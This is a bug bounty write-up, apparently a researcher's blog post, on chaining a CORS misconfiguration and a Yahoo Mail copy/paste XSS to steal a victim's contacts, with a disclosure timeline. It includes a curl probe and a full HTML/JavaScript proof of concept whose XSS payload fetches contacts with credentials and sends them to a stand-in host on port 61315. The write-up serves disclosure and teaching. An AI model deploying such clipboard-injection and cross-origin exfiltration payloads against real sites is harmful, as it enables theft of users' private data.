 ```yaml
---
layout: post
title: "Chaining 2 Bugs in Yahoo! to steal contacts!"
---
```

### &#x1F468;&#x1F3FB;&#x200D;&#x1F4BB;&nbsp;Introduction & Background:
This is a write-up of how I chained two vulnerabilities (an XSS and a CORS misconfiguration) that allowed me to steal contacts from a victim's contact book. This data included: names, phone numbers, addresses, etc. 

#### <font color="#129AC8">&#x2717;</font> Cross-Origin-Resource Sharing
> Cross-Origin Resource Sharing (CORS) is a mechanism that uses additional HTTP headers to let a user agent gain permission to access selected resources from a server on a different origin (domain) than the site currently in use.

Browsers enforce the <a href="https://en.wikipedia.org/wiki/Same-origin_policy" rel="noopener noreferrer" target="_blank"><font id="highlighter">Same-Origin Policy</font></a>, meaning that data on a site is only accessible from the same domain and port, unless there is a CORS configuration. This allows data to be shared with other sites.

#### <font color="#129AC8">&#x2717;</font> Cross-Site Scripting:
XSS is a client-side code injection attack that allows an attacker to insert scripts (such as javascript) into a vulnerable application. If you don't know what it is, you should. 
<br><br>

### &#x1F4A3; The Bugs:
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #1: A CORS Misconfiguration in http://proddata.xobni.yahoo.com
I was browsing through various requests made to *.yahoo.com subdomains logged in the "<font id="highlighter2">Target</font>" tab of Burp Suite. I came across the subdomain proddata.xobni.yahoo.com and was intrigued by the name. There were only a few requests logged, but all to the same endpoint: `https://proddata.xobni.yahoo.com/v4/contacts`. This endpoint contains **every** contact you have in your Contact Book via a single `GET` request. I noticed the origin `https://mail.yahoo.com` was being reflected back in the `Access-Control-Allow-Origin` with `Access-Control-Allow-Credentials: true` header. I tried modifying the origin to many different payloads that I thought may work and be reflected, however none were reflected back. I then tried to send a different Yahoo! subdomain as the origin, rather than the `mail.yahoo.com` one. 
```
curl 'https://proddata.xobni.yahoo.com/v4/contacts' -s -H 'Origin: https://hackerone-cdl.yahoo.com' --head
```
Response:
```
Access-Control-Allow-Origin: https://hackerone-cdl.yahoo.com
Access-Control-Allow-Methods: GET,POST,PUT,DELETE,OPTIONS
Access-Control-Allow-Credentials: true

```
It accepted any *.yahoo.com subdomain in the origin and reflected it back in the ACAO with `Allow-Credentials: true`. This meant if I could find an XSS on *.yahoo.com, I could leverage it to steal contacts.  
<br>
#### <i class="fa fa-diamond" style="color:#129AC8" aria-hidden="true"></i> Bug #2: An XSS in Yahoo! Mail
A few days passed and I still hadn't found an XSS. Then I saw a tweet from Enguerran Gillier (<a href="https://twitter.com/opnsec" _target="blank" rel="noopener noreferrer">@opnsec</a>) regarding a wontfix Copy+Paste XSS he had found in Yahoo Mail. I quickly wget'd that POC from his server and edited it to fit my needs. (Turns out after reporting the chained bugs, the XSS <font id="highlighter">wasn't</font> marked as a wontfix and there was some miscommunication, so lucky me!). It required more user-interaction than I had wanted, but I didn't care, I just wanted to chain them and report them as soon as possible. 

### &#x1F4B0; The Grand Finale
This was my proof-of-concept, that required a logged in user to copy any text from this page and paste it into Yahoo Mail. 
```html
<!doctype html>
  <head>
    <title>Yahoo CORS Misconfiguration</title>
  </head>
  <body>
    <h1>Yahoo CORS Misconfiguration</h1>
    <p>Stealing Contact information via CORS Misconfiguration + Yahoo Mail XSS via Copy/Paste</p>
    <h3>Prerequisites :</h3>
    - Tested on Windows 10 with Firefox 56, Chrome 62, Edge<br/>
    <h3>Instructions :</h3>
    1. Select any text in this page and copy it using ctrl-C or right click -> copy <br/>
    <span>Copy status : </span><span id="copied">not copied yet</span> <br/>
    2. Go to Yahoo Mail, compose a new email and paste inside the email body<br/>
    3. All of your contact's information will be sent to my server on port 61315  
  <script>
  document.addEventListener('copy', function(e){
  	e.clipboardData.setData('text/plain', '');
  	e.clipboardData.setData('text/html','<div id="enhancr2_a" class="yahoo-link-enhancr-card">xxx</div><img src="x" onerror="document.write(\'&lt;script&gt;var xhttp=new XMLHttpRequest();xhttp.onreadystatechange = function() {if (this.readyState == 4 && this.status == 200) {document.location=&#x22;http://example.com:61315&#x22;+escape(this.responseText);}};xhttp.open(&#x22;GET&#x22;,&#x22;https://proddata.xobni.yahoo.com/v4/contacts&#x22;,true);xhttp.withCredentials = true;xhttp.send();&lt;/script&gt;\');">');
  	e.preventDefault();
  	document.getElementById("copied").textContent = "SUCCESSFULLY COPIED"
  });
  </script>
```
<br>
Proof-of-Concept Video:<br>
<iframe width="560" height="315" src="https://www.youtube.com/embed/lK23tBEVKxU" frameborder="0" allow="autoplay; encrypted-media" allowfullscreen></iframe>
<br>
<h2><u>Timeline</u></h2>
- (11/8/2017) Reported to Yahoo! via HackerOne
- (11/9/2017) Confirmed & awarded $150 on Triage
- (11/15/2017) Vulnerability Patched
- (12/10/2017) Awarded a $1,850 bounty (making the entire bounty $2,000)
<br><br>This was a fun report for me and I hoped you enjoyed it as well!<br>Thanks for reading,<br><br>
**Corben Leo** (<font color="#E22A3C">@sxcurity</font>)
- https://hackerone.com/cdl
- https://twitter.com/sxcurity
- https://bugcrowd.com/c
- https://github.com/sxcurity
